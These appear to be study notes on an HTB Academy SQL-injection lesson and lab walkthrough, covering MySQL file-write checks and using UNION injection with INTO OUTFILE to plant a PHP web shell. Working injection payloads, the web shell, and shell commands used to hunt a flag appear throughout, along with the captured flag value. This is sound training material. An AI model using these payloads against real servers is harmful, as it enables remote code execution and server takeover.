 ﻿---
sticker: lucide//database
---
When it comes to writing files to the back-end server, it becomes much more restricted in modern DBMSes, since we can utilize this to write a web shell on the remote server, hence getting code execution and taking over the server. This is why modern DBMSes disable file-write by default and require certain privileges for DBA's to write files. Before writing files, we must first check if we have sufficient rights and if the DBMS allows writing files.

---

## Write File Privileges

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with`FILE` privilege enabled
2. MySQL global`secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

We have already found that our current user has the`FILE` privilege necessary to write files. We must now check if the MySQL database has that privilege. This can be done by checking the`secure_file_priv` global variable.

#### secure_file_priv

The [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable is used to determine where to read/write files from. An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. On the other hand,`NULL` means we cannot read/write from any directory. MariaDB has this variable set to empty by default, which lets us read/write to any file if the user has the`FILE` privilege. However,`MySQL` uses`/var/lib/mysql-files` as the default folder. This means that reading files through a`MySQL` injection isn't possible with default settings. Even worse, some modern configurations default to`NULL`, meaning that we cannot read/write files anywhere within the system.

So, let's see how we can find out the value of`secure_file_priv`. Within`MySQL`, we can use the following query to obtain the value of this variable:


```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

However, as we are using a`UNION` injection, we have to get the value using a`SELECT` statement. This shouldn't be a problem, as all variables and most configurations' are stored within the`INFORMATION_SCHEMA` database.`MySQL` global variables are stored in a table called [global_variables](https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html), and as per the documentation, this table has two columns`variable_name` and`variable_value`.

We have to select these two columns from that table in the`INFORMATION_SCHEMA` database. There are hundreds of global variables in a MySQL configuration, and we don't want to retrieve all of them. We will then filter the results to only show the`secure_file_priv` variable, using the`WHERE` clause we learned about in a previous section.

The final SQL query is the following:

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

So, similar to other`UNION` injection queries, we can get the above query result with the following payload. Remember to add two more columns`1` &`4` as junk data to have a total of 4 columns':

\
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

 ![](https://academy.hackthebox.com/storage/modules/33/secure_file_priv.jpg)

And the result shows that the`secure_file_priv` value is empty, meaning that we can read/write files to any location.

---

## SELECT INTO OUTFILE

Now that we have confirmed that our user should write files to the back-end server, let's try to do that using the`SELECT .. INTO OUTFILE` statement. The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files. This is usually used for exporting data from tables.

To use it, we can add`INTO OUTFILE '...'` after our query to export the results into the file we specified. The below example saves the output of the`users` table into the`/tmp/credentials` file:


```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

If we go to the back-end server and`cat` the file, we see that table's content:


```shell-session
smoothment@htb[/htb]$ cat /tmp/credentials 

1 admin 392037dbba51f692776d6cefb6dd546d
2 newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

It is also possible to directly`SELECT` strings into files, allowing us to write arbitrary files to the back-end server.


```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

When we`cat` the file, we see that text:

```shell-session
smoothment@htb[/htb]$ cat /tmp/test.txt 

this is a test
```


```shell-session
smoothment@htb[/htb]$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul 8 06:20 /tmp/test.txt
```

As we can see above, the`test.txt` file was created successfully and is owned by the`mysql` user.

Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

---

## Writing Files through SQL Injection

Let's try writing a text file to the webroot and verify if we have write permissions. The below query should write`file written successfully!` to the`/var/www/html/proof.txt` file, which we can then access on the web application:


```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use`load_file` to read the server configuration, like Apache's configuration found at`/etc/apache2/apache2.conf`, Nginx's configuration at`/etc/nginx/nginx.conf`, or IIS configuration at`%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

The`UNION` injection payload would be as follows:

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

 ![](https://academy.hackthebox.com/storage/modules/33/write_proof.png)

We don't see any errors on the page, which indicates that the query succeeded. Checking for the file`proof.txt` in the webroot, we see that it indeed exists:

 ![](https://academy.hackthebox.com/storage/modules/33/write_proof_text.png)

Note: We see the string we dumped along with '1', '3' before it, and '4' after it. This is because the entire 'UNION' query result was written to the file. To make the output cleaner, we can use "" instead of numbers.

---

## Writing a Web Shell

Having confirmed write permissions, we can go ahead and write a PHP web shell to the webroot folder. We can write the following PHP webshell to be able to execute commands directly on the back-end server:


```php
<?php system($_REQUEST[0]); ?>
```

We can reuse our previous`UNION` injection payload, and change the string to the above, and the file name to`shell.php`:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

 ', , into outfile '/var/www/html/shell.php'-- -'>

![](https://academy.hackthebox.com/storage/modules/33/write_shell.png)

Once again, we don't see any errors, which means the file write probably worked. This can be verified by browsing to the`/shell.php` file and executing commands via the`0` parameter, with`?0=id` in our URL:
 ![](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

The output of the`id` command confirms that we have code execution and are running as the`www-data` user.

# Question
---

![Pasted image 20250203154637.png](../../../../IMAGES/Pasted%20image%2020250203154637.png)

We can submit the following in order to get the webshell:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

Now, we can go to `/shell.php` in the following way:

```r
http://83.136.248.110:40014/shell.php?0=id
```

![Pasted image 20250203154803.png](../../../../IMAGES/Pasted%20image%2020250203154803.png)

Now we got ourselves a webshell, let's try to look around for a flag, we can do this by using:

```r
find / -name '*.txt
```

We need to use URL encoding so:

```r
find+/+-name+'*.txt'+2>/dev/null
```

We'll see the following output:

![Pasted image 20250203155314.png](../../../../IMAGES/Pasted%20image%2020250203155314.png)

Flag is located at `/var/www/flag.txt`, let's read it using:

```
cat+/var/www/flag.txt
```

![Pasted image 20250203155402.png](../../../../IMAGES/Pasted%20image%2020250203155402.png)


Got the flag: `d2b5b27ae688b6a0f1d21b7d3a0798cd `
